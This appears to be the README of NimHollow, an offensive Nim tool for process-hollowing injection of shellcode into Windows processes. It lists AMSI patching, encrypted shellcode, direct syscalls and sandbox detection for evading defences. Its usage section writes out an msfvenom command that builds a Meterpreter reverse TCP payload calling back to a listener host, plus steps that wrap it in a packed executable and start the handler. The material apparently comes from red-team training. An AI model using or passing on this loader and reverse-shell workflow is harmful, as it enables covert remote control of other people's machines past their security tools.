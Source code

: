 NimHollow
==========

Playing around with the [Process Hollowing](https://attack.mitre.org/techniques/T1055/012/) technique using Nim.

Features:

* Direct syscalls for triggering Windows Native API functions with [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers).
* Shellcode encryption/decryption with [AES in CTR mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_(CTR)).
* AMSI patching with @rasta-mouse's [method](https://rastamouse.me/memory-patching-amsi-bypass/).
* Simple sandbox detection techniques from the OSEP course by @offensive-security.

## Usage

Installation:

```console
~$ git clone --recurse-submodules https://github.com/snovvcrash/NimHollow && cd NimHollow
~$ sudo apt install upx -y
~$ pip3 install -r requirements.txt
```

Example:

```console
~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.13.37 LPORT=31337 EXITFUNC=thread -f raw -o shellcode.bin
~$ python3 NimHollow.py shellcode.bin -i 'C:\Windows\System32\calc.exe' -o hollow --upx --rm
~$ file hollow.exe
hollow.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows
~$ sudo msfconsole -qr msf.rc
```

Help:

```
usage: NimHollow.py [-h] [-i IMAGE] [-o OUTPUT] [--debug] [--upx] [--rm] shellcode_bin

positional arguments:
  shellcode_bin         path to the raw shellcode file

optional arguments:
  -h, --help            show this help message and exit
  -i IMAGE, --image IMAGE
                        process image to hollow (default "C:\Windows\System32\svchost.exe")
  -o OUTPUT, --output OUTPUT
                        output filename
  --debug               do not strip debug messages from Nim binary
  --upx                 compress Nim binary with upx
  --rm                  remove Nim files after compiling the binary
```

## Process Hollowing in Slides

![](https://user-images.githubusercontent.com/23141800/132571935-07adfa73-f33d-4c37-b21c-7f8534699a8d.png)
![](https://user-images.githubusercontent.com/23141800/132571944-de967c1f-1518-4d91-a4d6-4d63120017d7.png)
![](https://user-images.githubusercontent.com/23141800/132571951-fb9b08b4-b6ab-4ae9-9387-e6f316fd4500.png)
![](https://user-images.githubusercontent.com/23141800/132571964-588c830e-de06-4b09-a708-b32c4150a17c.png)

## Credits

* @ajpc500 for the [NimlineWhispers](https://github.com/ajpc500/NimlineWhispers) project.
* @byt3bl33d3r for the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/) repository.
* @S3cur3Th1sSh1t and @chvancooten for Nim [code](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim) [snippets](https://github.com/byt3bl33d3r/OffensiveNim/issues/16).
